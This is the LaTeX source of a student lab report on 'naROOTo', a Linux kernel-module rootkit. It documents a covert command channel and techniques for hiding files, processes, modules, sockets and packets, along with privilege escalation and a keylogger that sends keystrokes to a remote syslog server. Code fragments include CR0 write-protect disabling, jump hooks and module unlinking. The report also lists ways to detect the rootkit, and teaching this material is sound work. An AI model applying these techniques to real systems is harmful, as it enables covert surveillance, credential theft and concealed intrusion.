\documentclass[10pt, letterpaper]{scrartcl}
\usepackage [english]{babel}
\usepackage{enumitem}
\usepackage{geometry}
\usepackage{color}
\usepackage{tikz}
\usepackage{listings}
\usepackage{latexsym}
\usepackage{amsmath}
\usepackage{multirow}
\usetikzlibrary{snakes}
\usetikzlibrary{patterns}
\usepackage[loose]{subfigure}
\usepackage[pdfborder={0 0 0}]{hyperref}


\geometry{margin=2.5cm}

\title{naROOTo - Rootkit Gruppe 4}
\subtitle{TUM \\Chair of IT Security\\  Rootkit Programming WS2014/15}
\author{Martin Herrman \and Gurusiddesha Chandrasekhara}
\date{\today}

\begin{document}
\maketitle
\tableofcontents
\newpage

\section{Introduction}
This rootkit has been implemented as part of the "Rootkit programming" lab course of the TUM in W2014/14. 
It is a single Linux Kernel Module (LKM) that can be inserted into the Linux kernel 3.16. 
It implements functionality such as keylogging (both locally to a file as well as remotely using the syslog protocol), file hiding, process hiding, socket hiding, packet hiding, module hiding, port knocking, and privilege escalation. Each functionality can be controlled by a covert communication channel which is further explained in chapter \ref{sec:command_and_control}.
Chapter \ref{sec:compiling_and_installing} gives an overview of the system requirements and describes how to properly build, insert, and unload naROOTo.
Chapter \ref{sec:implementation} discusses the implementations of the different functionalities while chapter \ref{sec:vulnerabilities} points to a few vulnerabilities of the rootkit.

\section{Compiling and Installing}\label{sec:compiling_and_installing}
Building and using naROOTo is fairly easy even though there are a peculiarities that need to be heeded.
\subsection{System configuration}
This rootkit has been implemented and tested on a very specific system. Even though may work on other systems -- especially on similar ones -- we recommend using the following configuration:
\begin{itemize}
    \item VirtualBox VM (5GB HDD, 600MB memory) emulating a single x86-amd64 CPU
    \item Debian Wheezy 7.6 x86-64
    \item Linux Kernel 3.16.4 x86-64 (Vanilla) built using the configuration of the Debian kernel as a base
\end{itemize}

\subsection{Building}
Building requires the kernel sources and a valid System.map file. To build the LKM simply enter the source folder and issue the command \texttt{make}.
This will compile the rootkit with all its functionality. To enable debugging to kernel messages edit the \texttt{Makefile} to include to compiler flag \texttt{-DDEBUG}.
If the build was successful the file \texttt{naROOTo}.ko as well as other object files will be created in the source folder.

\subsection{Loading}
The rootkit can be inserted by issuing the command \texttt{insmod narooto.ko} as \texttt{root}.
Afterwards it can be controlled by the covert communication channel described in the following chapter \ref{sec:command_and_control}.

\section{Command and control}\label{sec:command_and_control}
\subsection{Controlling \texttt{naROOTo}}
After \texttt{naROOTo} is loaded, it can be controlled by a covert communication channel. 
Commands are issued using the stdin of a shell.
One just has to type them, no special permissions are required.
Once a command is entered completely it will be executed immediately. Pressing \texttt{enter} is neither required nor suggested as the history of entered shell commands is logged on most systems.

Each command starts with the same prefix: \texttt{f7R\_}.
This is supposed to ensure that a regular user will not (de-)activate any rootkit functionality by accident and therefore reveal its use.
After the prefix, the actual command is entered.
Commands may or may not contain a single parameter.
Multiple parameters are not supported at this time.
They can be supplied by separating them from the command by a single space character.
To finish the command and execute it (if it is valid), a semicolon is used.

The basic syntax of any command therefore looks like this: \texttt{f7R\_command\textvisiblespace <optional\_parameter>;} 

The following table \ref{tab:commands} lists all commands with a short description of their functionality.

\begin{table}
%\centering
\begin{tabular}{ |l|l| }
\hline
\multicolumn{2}{ |c| }{File hiding} \\
\hline
 \texttt{f7R\_hide\_file\textvisiblespace<path>;} & Hides a single file or folder. \texttt{<path>} is the absolute path of the file to hide. \\
 \texttt{f7R\_unhide\_file\textvisiblespace<path>;} & Unhides a previously hidden file or folder. \\
  & \\
 \texttt{f7R\_hide\_fprefix\textvisiblespace<prefix>;} & Hides all files and folders beginning with the prefix \texttt{<prefix>}. \\  & All files and subfolders of a hidden folder are also hidden. \\
 \texttt{f7R\_unhide\_fprefix\textvisiblespace<prefix>;} & Removes the prefix \texttt{<prefix>} from the list of prefixes to hide. \\ \hline

\multicolumn{2}{ |c| }{Process hiding} \\
\hline
\texttt{f7R\_hide\_process\textvisiblespace<pid>;} & Hides a specific process. \texttt{<pid>} is the id of the process to be hidden. \\
\texttt{f7R\_unhide\_process\textvisiblespace<pid>;} & Unhides a previously hidden process. \\ \hline

\multicolumn{2}{ |c| }{Module hiding} \\
\hline
\texttt{f7R\_hide\_module\textvisiblespace<name>;} & Hides any currently loaded LKM. \\ & \texttt{<name>} is the name of the module to be hidden. \\
\texttt{f7R\_unhide\_module\textvisiblespace<name>;} & Unhides a previously hidden LKM. \\ \hline

\multicolumn{2}{ |c| }{Hiding sockets} \\
\hline
\texttt{f7R\_hide\_tcp\textvisiblespace<port>;} & Hides a TCP socket from both the \texttt{ss} and the \texttt{netstat} command. \\ & \texttt{<port>} is the port number of the TCP socket to be hidden. \\
\texttt{f7R\_unhide\_tcp\textvisiblespace<port>;} & Unhides a previously hidden TCP socket. \\
& \\
\texttt{f7R\_hide\_udp\textvisiblespace<port>;} & Hides a UDP socket from both the \texttt{ss} and the \texttt{netstat} command. \\ & \texttt{<port>} is the port number of the UDP socket to be hidden. \\
\texttt{f7R\_unhide\_udp\textvisiblespace<port>;} & Unhides a previously hidden UDP socket. \\ \hline

\multicolumn{2}{ |c| }{Hiding packets} \\
\hline
\texttt{f7R\_hide\_ip\textvisiblespace<ip>;} & Hides both TCP and UDP packets from packet sniffers such as \texttt{tcpdump}. \\ & \texttt{<ip>} is the ip address of the host whose packets are supposed to be hidden. \\
\texttt{f7R\_unhide\_ip\textvisiblespace<port>;} & Unhides previously hidden packets. \\
& \\
\texttt{f7R\_hide\_service\textvisiblespace<port>;} & Hides all incoming TCP packets to a specified service. \\ & \texttt{<port>} is the port number of the service to be hidden. \\
\texttt{f7R\_unhide\_service\textvisiblespace<port>;} & Unhides a previously hidden service. \\ \hline

\multicolumn{2}{ |c| }{Port knocking} \\
\hline
\texttt{f7R\_enable\_knocking\_tcp\textvisiblespace<port>;} & Enables port knocking for a specified TCP service. \\ & \texttt{<port>} is the port number of the service to be hidden. \\
\texttt{f7R\_disable\_knocking\_tcp\textvisiblespace<port>;} & Disable port knocking for a specified TCP service. \\ 
 & \\
\texttt{f7R\_enable\_knocking\_udp\textvisiblespace<port>;} & Enables port knocking for a specified UDP service. \\ & \texttt{<port>} is the port number of the service to be hidden. \\
\texttt{f7R\_disable\_knocking\_udp\textvisiblespace<port>;} & Disable port knocking for a specified UDP service. \\ \hline

\multicolumn{2}{ |c|}{Network keylogging} \\
\hline
\texttt{f7R\_enable\_net\_keylog\textvisiblespace<ip>;} & Enables network keylogging. \\ & \texttt{<ip>} specifies the IP address of the syslog-ng server. \\
\texttt{f7R\_disable\_net\_keylog;} & Disabled network keylogging. \\ \hline

\multicolumn{2}{ |c| }{Privilege escalation} \\
\hline
\texttt{f7R\_escalate;} & Provides superuser access to a terminal. \\ 
\texttt{f7R\_deescalate;} & Restores the previous permissions of a terminal.\\ \hline

\end{tabular}
\caption{Commands to control \texttt{naROOTo}}
\label{tab:commands}
\end{table}

\section{Implementation}
This chapter discusses the implementation details of \texttt{naROOTo}. 

\subsection{High-level design}
\texttt{naROOTo} was programmed using a modular approach. Each submodule represented by a header and a source file serves a very specific purpose.
This makes it very easy to implement new functionality should the new arise in the future.

\texttt{main.c} is the entry point for the LKM. In its \texttt{init\_module} function it enables the different functionalities by calling the appropriate functions. On unloading, \texttt{cleanup\_module} disables all of \texttt{naROOTo}'s features.
The following table \ref{tab:files} describes the purpose of each component. \\



\begin{tabular}{l*{6}r}
File name             & Functionality \\
\hline
gensysmap.sh & Shell script that generates sysmap.h file.\\
main.\{c,h\} & Module (un-)loading and basic configuration.\\
control.\{c,h\} & Control API for the different functionalities.\\
include.\{c,h\} & Helper functions.\\
covert\_communication.\{c,h\} & Implementation of the covert communication channel.\\
getdents.\{c,h\} & Hooking of the \texttt{getdents} syscall and related functionality.\\
read.\{c,h\} & Hooking of the \texttt{read} syscall and related functionality.\\
hide\_module.\{c,h\} & Functionality needed for hiding kernel modules.\\
hide\_socket.\{c,h\} & Functionality needed for hiding TCP and UDP sockets.\\
hide\_packet.\{c,h\} & Functionality needed for hiding packets. \\
port\_knocking.\{c,h\} & A port knocking implementation.\\
net\_keylog.\{c,h\} & Functionality needed for network keylogging.\\

\end{tabular}

\subsection{Obtaining address of kernel symbols}
The kernel symbols are important in writing various modules.
Many of them are not easily available through libraries or are not exported in recent kernel versions (e.g. the \texttt{sys\_call\_table}).
The \texttt{System.map.<kernel version>} file in the \texttt{/boot} directory lists the addresses of all kernel symbols in the form:
\begin{verbatim}
address type symbol_name
\end{verbatim}

We wrote a simple shell script to convert this file into a format which can be used by a LKM.
This script generates the \texttt{sysmap.h} file by parsing it using regular expressions. 
The lines of the generated file then look like this:

\begin{verbatim}
#define sysmap_symbol_name address
\end{verbatim}

When a particular kernel symbol is required, its address can just be type-casted to the correct type or function signature. 

A good example for this is the system call table which are further described in chapter \ref{sec:implementation_system_call_hooking}.
We can access the system call table from in our module like this:

\begin{verbatim}
void **sys_call_table = (void *) sysmap_sys_call_table;
\end{verbatim}

\subsection{System call hooking}\label{sec:implementation_system_call_hooking}
The system call table is an array of pointers to all available system calls of the Linux kernel and can be thought of as an API for accessing functionality that resides in kernel space.
A basic technique of writing rootkits is manipulating specific system calls.

There are several ways to do this, the easiest probably is manipulating the system call table itself to make specific system calls point to different functions of the same signature.
When a user space process now calls that specific system call, it is actually directed to the (possibly malicious) function that was inserted.
The original system call can be called by saving its pointer. This way a LKM can completely control what the user does (or doesn't) see.

Another more sophisticated way of hooking system calls is manipulating the function directly.
One can insert assembly instructions that cause a jump to a different location that contains a manipulated version of the system call.
If one wants to call the original system call, however, the overwritten code needs to be restored first.

Both ways are used in \texttt{naROOTo} and both require one additional feature to work: disabling the memory write protection. 
Because such code is usually in regions that cannot be overwritten for security reasons, we have to disable it first.
We do this by flipping a bit in the control register cr0 of the CPU.
This tells it to ignore any write protections and go ahead with the instructions.
Because this is written directly in assembly, those two functions are extremely portable and cannot be deprecated easily.
This operation is possible because we are operating in kernel mode (CPU ring 0) and not user mode.
The write protection of the CPU can be disabled and afterwards reenabled by using the following functions:

\begin{verbatim}
static void disable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (value & 0x00010000) {
            value &= ~0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}

static void enable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (!(value & 0x00010000)) {
            value |= 0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}
\end{verbatim}

\subsection{File hiding}
To hide files, \texttt{naROOTo} uses a manipulated \texttt{getdents} system call.
The manipulated function calls the original to get its output.
This output is then scanned for files or folders that need to be hidden.
Each file is represented by a \texttt{struct linux\_dirent} which contains additional information like its name.
If it is decided that a file is supposed to be hidden, the memory of the following \texttt{linux\_dirent}s is moved forward (overwriting that entry) and the return value is adapted accordingly.
This way the entry is no longer visible to the user space process that called \texttt{getdents}.

To also hide symbolic links pointing to hidden files, the system call \texttt{readlink} is used.
If the link points to a hidden file, the link is also hidden.
This also works for nested links as the call is looped until either a true file is found or it is determined that the symbolic link is to be hidden.
Because system calls are not intended to be called from kernel space, we had to disable the kernel checking for this.
This was done by the following lines that tell the kernel to also execute system calls if the memory that was allocated for them belongs to the kernel:

\begin{verbatim}
/* tell the kernel to ignore kernel-space memory in syscalls */
old_fs = get_fs();
set_fs(KERNEL_DS);

[...]
	
/* reset the kernel */
set_fs(old_fs);
\end{verbatim}

\subsection{Process Hiding}
To hide processes, \texttt{naROOTo} uses the already implemented file hiding.
This is possible because tools like \texttt{ps} look at the \texttt{/proc}-filesystem which contains a subfolder for each process.
All that is left to implement is to check if the current folder matches \texttt{/proc} (which can be done by looking at the file descriptor \texttt{fd}) and if the file name matches a PID of a hidden process. If both is the case, the file is hidden and tools like \texttt{ps} will no longer display it.

\begin{verbatim}
int getdents(unsigned int fd, struct linux\_dirent *dirp,
                    unsigned int count);
\end{verbatim}

\subsection{Module hiding}
We can get the information on loaded modules using \texttt{lsmod}
(which lists the entries from \texttt{/proc/modules}) and entries in \texttt{/sys/modules}

\texttt{Hiding the module from /proc/modules}: All the modules in the kernel are arranged as linked list, 
where each list of type \texttt{struct module}. \texttt{THIS\_MODULE} macro which points to the current module. 
To hide it from lsmod we just need to delete the particular entry from the list of modules. 
This can be easily achieved via list operations defined in \texttt{list.h}:\texttt{list\_del}, 
\texttt{list\_add\_tail}, \texttt{list\_add}. Once removed from the list of modules, 
it will not show up anymore when using \texttt{lsmod}. 

\texttt{Hiding the module from /sys/modules}: Deleting from \texttt{/sys/modules} was a tricky part. 
Just deleting from the list of modules, will not stop showing it up from \texttt{/sys/modules}.
This we can do by two different methods. By hacking the \texttt{filldir} function or by deleting it from the 
kernel file system. If we do this by using first method \texttt{naROOTo} will be easily detectable. 
% add how: One can count the number of modules from 
So we decided to delete the entry from the kernel file system. \texttt{THIS\_MODULE} points to kernel object. 
If we delete this kernel object of type \texttt{struct kernfs\_node}, then it will not show up from from \texttt{/sys/modules}. 
In recent versions of kernel, the kernel objects are implemented as red-black trees. 
There are functions defined in \texttt{rbtree.h} to perform this operation. 

\begin{verbatim}
rb_erase(&kn->rb, &kn->parent->dir.children);
RB_CLEAR_NODE(&kn->rb);
\end{verbatim}

%TODO: gmc: add details about removing kernfs\_node. 

\subsection{Network Key-logging}
We had the local key-logging already enabled in our root-kit by hooking \texttt{read} system call. 
We just had to send this keys to \texttt{syslog-ng} server, using syslog protocol. 
These packets can be sent using \texttt{UDP} packets using \texttt{netpoll} kernel API. 
The \texttt{netpoll.h} provides the mechanism for sending UDP packets to a remote host. 
Only one constraint in netpoll is that, the destination port has to be a Ethernet port. 

To do this function, we need to first initialize the netpoll structure with IP address, port number etc. 
before using it to send the keys. 
The \texttt{netpoll} structure looks like this, 

\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member. 


\texttt{Setting up syslog-ng server}: One must set the \texttt{syslog-ng} server in the destination. 
The following steps are for setting the syslog-ng server on Ubuntu. 
\begin{itemize}
\item Install the syslog-ng server: sudo apt-get install syslog-ng

\item Add these entries in \texttt{syslog-ng.conf} file (you can find the file under /etc/syslog-ng/ folder)
\begin{verbatim}
source syslog_udp {
udp(port(514));
};
destination df_wrt0 {
file("/var/log/rootkit_log.log");
};
log {
source(syslog_udp);
destination(df_wrt0);
}
filter f_wrt0 {
host("Ip from you are getting the data");
};
log {
source(syslog_udp);
filter(f_wrt0);
destination(df_wrt0);
}
\end{verbatim}

\end{itemize}

\subsection{Privilege Escalation}
To grant superuser privileges to any shell, \texttt{naROOTo} manipulates the credentials of the particular process.
This is done by setting all ids to 0 in the corresponding \texttt{struct cred}.
The original values are stored to be able to return to regular privileges if necessary.

\begin{verbatim}
struct cred * prepare_creds();
commit_creds(struct cred *);
\end{verbatim}

\subsection{Socket Hiding}
The task was to hide any existing TCP/UDP sockets from the user. 
User can determine the socket details using \texttt{ss} and \texttt{netstat} commands.
The idea was to determine how netstat and ss works, 
then manipulate their behavior in such a way that they don't show the sockets whih we want to hide. 
With a little bit of research(\texttt{strace} on netstat), 
we found that netstat just prints out the contents of \texttt{/proc/tcp} and \texttt{/proc/udp}.

Our initial assumption of just manipulating these files was not so straight forward. 
Since, these files are \texttt{sequence files}: 
These files sequentially fills up on request by corresponding \texttt{sequence functions}. 
We had to get access to these sequence functions, \texttt{tcp\_seq\_show} and \texttt{udp\_seq\_show}. 
From the \texttt{proc\_dir\_entry} \texttt{init\_net.proc\_net->subdir}, 
we can search for the directory names \texttt{tcp} and \texttt{udp}. \
Once we get the match we store the pointer of original function, and replace by our hooked function. 

To filter out the sockets by port number we need to access port number inside our hooked function. 
\texttt{inet\_sock} struct has the port number. 
In our hooked function, we have void pointer which is of type \texttt{struct sock}. 
We can get the \texttt{inet\_sock} stucture from \texttt{sock} using \texttt{inet\_sk} function. 
If we find the port of our interest, we just \texttt{return 0;} so that this line doesn't show up in the 
sequence file, otherwise it behaves as original show function. 

\texttt{Hiding TCP sockets from ss}: By manipulating sequence functions we took care of \texttt{netstat} 
command and UDP packets from \texttt{ss} command. But still TCP sockets shows up through the \texttt{ss} command.
To read from the sockets, \texttt{ss} uses \texttt{recvmsg} system call. 
If we hook the \texttt{recvmsg} system call and intercept the data, we will be able to hide TCP sockets from ss. 
For this reason we hooked \texttt{recvmsg} system call, 
since hooking system calls is one of the easiest ways to alter the data.
We obtain the \texttt{nlmsghdr} from the hooked call and we get the length of the original call.
Until we find our port number, we search for port number in the next messages in multipart message. 
Once we find the port number that we want to hide, 
we copy the remaining entries and decrease the length of the original function and call it.


\subsection{Packet Hiding}
Our goal was to hide any network packets from any process which uses libcap to  sniff packets.
At first we wanted to understand how libcap tools work to sniff packets. \texttt{strace} on tcpdump gave us some useful information. It uses packet sockets and then socket is polled every second to retrieve the information.   

\begin{verbatim}
socket(PF_PACKET, SOCK_RAW, 768)        = 3
poll([{fd=3, events=POLLIN}], 1, 1000)  = 0 (Timeout)
\end{verbatim} 

Some further investigations of libcap lead us to understand that, these three functions are involved in getting the packet information.\texttt{packet\_rcv}, \texttt{tpacket\_rcv}, \texttt{packet\_rcv\_spkt}. These functions give the packet information to user space when {\em memory mapped} sockets are used.

So we decided to hook the these functions. 
We use {\em jump code injection} method to hook these functions. This means that we copy (assembly)
code at the top of the function body which leads to a jump to our (hooked) function. Whenever we need to call
the original function, we have to overwrite this section with the original code again and do an ordinary call to
it. We used \texttt{push-ret} method to perform jump. 
We \texttt{push} the address on top of the stack and issue a \texttt{ret} instruction.

\begin{verbatim}
char hook[6] = { 0x68, 0x00, 0x00, 0x00, 0x00, 0xc3 };
unsigned int *target = (unsigned int *) (hook + 1);
\end{verbatim} 

In the hooked functions, we call \texttt{is\_packet\_hidden} function with \texttt{struct sk\_buff} as parameter.
We just extract the ip header from \texttt{sk\_buff} and check if we want to hide this ip address and return the values accordingly. 
If we do not want to hide the packet in the hooked function, we just restore original, call it, hook again. 
  
\subsection{Port Knocking}
To implement rudimentary port knocking feature, we accept the service that we want to hide and an ip address 
from which the connections are accepted. To implement this we use Netfilter hooks. Netfilter is a set of hooks inside Linux kernel. 
It allows kernel modules to register callback functions with the network stack in order to intercept and manipulate the network packet.

The IPv4 packet traversal through Netfilter system is illustrated in figure \ref{netfilter}, 
\begin{figure*}
\centerline{

\includegraphics[width=1.0\columnwidth]{netfilter.jpg}
}
\caption{Netfilter System hook}
% A label to allow refering to this figure in the text.
\label{netfilter}
\end{figure*}

When a network packet comes in, it is passed to the netfilter’s first hook \texttt{NF\_INET\_PRE\_ROUTING}. After that, the packet goes through the routing code, which decides where the packet is destined to, either another port in same network interface or another interface. It also might drop the packet if it’s unroutable. So we hook netfilter function like below. 

\begin{verbatim}
        /* setup everything for the netfilter hook */
        hook.hook = knocking_hook;              /* our function */
        hook.hooknum = NF_INET_LOCAL_IN;        /* grab everything that comes in */
        hook.pf = PF_INET;                      /* we only care about ipv4 */
        hook.priority = NF_IP_PRI_FIRST;        /* respect my prioritah */

        /* actually do the hook */
        ret = nf_register_hook(&hook);
\end{verbatim} 

And in the hooked function, we extract the ip header from \texttt{sk\_buff} and check if the port is blocked, depending on that we then craft an appropriate \texttt{REJECT} response. For TCP we send \texttt{TCP RST} and for UDP we send icmp port unreachable. If the port is allowed to connect we send \texttt{NF\_ACCEPT} to allow the connection.

\section{Vulnerabilities}
Even though \texttt{naROOTo} utilizes multiple techniques to hide itself, there are still a few weaknesses that allow its detection.

\subsection{Detection via hooked system calls}
Because \texttt{naROOTo} manipulates some pointers in the system call table, it is easy to detect this way.
One could scan the system call table and compare it to a clean one if available (or the addresses of the specific functions in the System.map file).
A mismatching pointer indicates a hooked system call and threrefore an infection with a rootkit.

\subsection{Detection via hidden processes}
Because \texttt{naROOTo} just hides the processes from the file system, there are a number of ways to detect this.
It is still possible to send signals to hidden process, so a \texttt{kill -0 <PID>} will return no error message on a hidden process while it would return one on a not existing one.
One could furthermore scan the kernel structure containing all processes (\texttt{struct task\_struct}) for processes and compare it to the displayed ones.

\texttt{Detection via hidden files}
Because our rootkit is running in a VM one can mount the disk image of a not running VM and compare its file system to the one displayed by the kernel. 
Any mismatches indicate hidden files.


\section{Conclusion}
As seen in this paper, \texttt{naROOTo} is a decent LKM rootkit for educational purposes.
It demonstrates the basic techniques of hiding different things from user space but can still be quite easily detected by a skilled administrator.
There are, however, further improvements that can be done to increase the stealthyness.
One could use a different method of hiding processes (like manipulating the kernel datastructures directly) to make it harder to detect those.
A different system call hooking method (like the use of a trampoline) can also improve the rootkit, as one would have to scan the system call code itself instead of just the pointers of the system call table in order to detect it.

There will always be, however, a few ways to detect LKM rootkits. As soon as the system is not running, the rootkit can no longer conceil itself and can easily be detected by closely examining the harddrive.

\end{document}
